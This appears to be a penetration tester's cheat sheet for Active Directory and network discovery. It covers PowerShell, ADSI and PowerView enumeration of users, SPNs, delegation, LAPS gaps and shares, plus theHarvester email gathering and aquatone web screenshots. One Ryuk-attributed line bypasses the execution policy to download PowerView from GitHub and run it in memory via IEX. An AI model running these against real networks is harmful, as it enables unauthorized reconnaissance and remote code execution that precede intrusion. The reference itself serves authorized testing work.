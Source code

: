 # Discovery
### Retrieve Group Membership for User
```powershell
Get-ADPrincipalGroupMembership "USERNAME" | Select name
```
### AD Enumeration via ADSI `DirectorySearcher`
#### Computer/User Objects
```powershell
([adsisearcher]'(&(objectCategory=Computer))').FindAll();
([adsisearcher]'(&(objectCategory=User))').FindAll();
```
#### SPNs
```powershell
([adsisearcher]"(&(&(servicePrincipalName=*) (UserAccountControl:1.2.840.113556.1.4.803:=512)) (!(UserAccountControl:1.2.840.113556.1.4.803:=2)))").FindAll();
```
Or
```powershell
$s = New-Object DirectoryServices.DirectorySearcher([ADSI]"");
$s.PageSize = 2000; 
$s.Filter = "(servicePrincipalName=*)";
$s.FindAll();
```
### Unconstrained delegation
```powershell
([adsisearcher]"(&(&(objectCategory=person)(objectClass=user)) (!userAccountControl:1.2.840.113556.1.4.803:=524288))").FindAll();
```
### Local Administrator Password Solution (LAPS)
Retrieve computers that are not configured with LAPS
```powershell
Get-ADComputer -Credential $cred -Server BURMAT.LOCAL -Filter {ms-Mcs-AdmPwd -notlike "*"} | Export-CSV -Path C:\temp\no_laps.csv;
```
### LDAP with PowerShell
#### Domain Users and Computers
```powershell
$users = ([adsisearcher]"(&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=2))").FindAll();
foreach ($u in $users) { 
    $u.Properties.samaccountname | Out-File C:\users-and-computers.txt -Append;
}
```
Extracting computers from the output:
* `Get-Content  C:\users-and-computers.txt  | Select-String "$" | out-file C:\computers.txt -append`
Extracting domain users from the output:

* `Get-Content  C:\users-and-computers.txt  | Select-String "$" -NotMatch | out-file C:\users.txt -append`
## PowerSploit
### Discovering Domain Controllers
```powershell
Get-DomainComputer -Credential $cred -Server dc01.burmat.local -Domain burmat.local -SearchBase "LDAP://OU=Domain Controllers,DC=BURMAT,DC=LOCAL" | Export-Csv -Path C:\domain_controllers.csv
```
### Domain Computers
```powershell
Get-ADComputer -Filter * -Server dc01.burmat.local | export-csv -Path C:\temp\domain_computers.csv
```
### Unconstrained Delegation (Other than DCs)
```powershell
Get-DomainComputer -Credential $cred -Server dc01.burmat.local -Domain burmat.local -Unconstrained | Export-Csv -Path C:\unconstrained_deleg_machines.csv
```
### Allowed to Delegate
```powershell
Get-DomainUser -Credential $cred -Server dc01.burmat.local -Domain burmat.local -AllowDelegation -AdminCount | Export-Csv -Path C:\allowed_to_deleg.csv
```
### Gather User Descriptions
```powershell
Get-DomainUser -Credential $cred -Server dc01.burmat.local -Domain burmat.local -Properties SAMAccountName,Description | Select-Object SAMAccountName,Description | Export-CSV -Path C:\user_descriptions.csv
```
### Enumerate Domain Network Shares
```powershell
Find-DomainShare -ComputerName fs01.domain.local -ComputerDomain domain.local -CheckShareAccess
```
Authenticated with custom credentials:
```powershell
$secpassword = ConvertTo-SecureString 'Password123$' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $secpassword)
Find-DomainShare -Domain dir.svc.accenture.com -Credential $cred
```
Looping a list of hostnames:
```powershell
foreach ($h in $smb_hosts) {  find-domainshare -Credential $cred -computername "$h" -computerdomain burmat.local -server dc1.burmat.local -CheckShareAccess; }
```
#### Specific TTP for Ryuk
```powershell
powershell.exe -exec bypass -Command "&{[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-NetSubnet; Get-NetComputer}"
```
## theHarvester
An open-source intelligence (OSINT) gathering tool, that will tap into many difference APIs to gather data for you. GitHub: [https://github.com/laramies/theHarvester](https://github.com/laramies/theHarvester)
Installation is a PITA. Put your API keys into the api-keys.yaml file in the root of the directory
#### Email Address Gathering:
Getting a list of email addresses from i[ntelx.io:](http://intelx.io/)
```sh
python3 theHarvester.py -d contoso.com -b intelx >> intelx-contoso.com.txt
```
If you are doing multiple domains, you can use the following bash one-liner, where `domains.txt` is a list of domain names to search:
```bash
while read d; do python3 theHarvester.py -b intelx -d $d -f "th-$d"; sleep 1; done < domains.txt
```
Clean up the output to just be emails with the following, if you have problems:
```sh
grep -i -o '[A-Z0-9._%+-]\\+@[A-Z0-9.-]\\+\\.[A-Z]\\{2,4\\}' intelx-contoso.com.txt
```
<details>
<summary>Sample theHarvers API Configuration File</summary>
This goes in `~/.theHarvester/api-keys.yaml` for Kali
```
apikeys:
  bevigil:
    key:

  binaryedge:
    key:

  bing:
    key:

  bufferoverun:
    key:

  censys:
    id:
    secret:

  criminalip:
    key:

  fullhunt:
    key:

  github:
    key:

  hunter:
    key:

  hunterhow:
    key:

  intelx:
    key:

  netlas:
    key:

  onyphe:
    key:

  pentestTools:
    key:

  projectDiscovery:
    key:

  rocketreach:
    key:

  securityTrails:
    key:

  shodan:
    key:

  tomba:
    key:
    secret:

  virustotal:
    key:

  zoomeye:
    key:
```
</details>
## Web Enumeration
### aquatone
Found here: [GitHub - michenriksen/aquatone: A Tool for Domain Flyovers](https://github.com/michenriksen/aquatone)
#### Basic Usage
```bash
cat hosts.txt | aquatone -ports small -out scans/aquatone -threads 10 -screenshot-timeout 50000 -chrome-path /usr/bin/chromium
```
#### Nmap Scan Results
```bash
cat nmap/tcp_web.xml | aquatone -nmap -screenshot-timeout 50000 -out scans/aquatone -threads 10 -chrome-path /usr/bin/chromium
```
#### Using a Proxy via Burp
(Assuming Burp is listening to localhost:8080):
- `-proxy http://127.0.0.1:8080`
<details>
<summary>Built-In Port Lists &#x26; Aliases</summary>
* `small: 80, 443`
<!---->
* `medium: 80, 443, 8000, 8080, 8443 (same as default)`
<!---->
* `large: 80, 81, 443, 591, 2082, 2087, 2095, 2096, 3000, 8000, 8001, 8008, 8080, 8083, 8443, 8834, 8888`
<!---->
* `xlarge: 80, 81, 300, 443, 591, 593, 832, 981, 1010, 1311, 2082, 2087, 2095, 2096, 2480, 3000, 3128, 3333, 4243, 4567, 4711, 4712, 4993, 5000, 5104, 5108, 5800, 6543, 7000, 7396, 7474, 8000, 8001, 8008, 8014, 8042, 8069, 8080, 8081, 8088, 8090, 8091, 8118, 8123, 8172, 8222, 8243, 8280, 8281, 8333, 8443, 8500, 8834, 8880, 8888, 8983, 9000, 9043, 9060, 9080, 9090, 9091, 9200, 9443, 9800, 9981, 12443, 16080, 18091, 18092, 20720, 28017`
</details>
## Network Discovery
### ARP
```
arp -a -N [interface]
```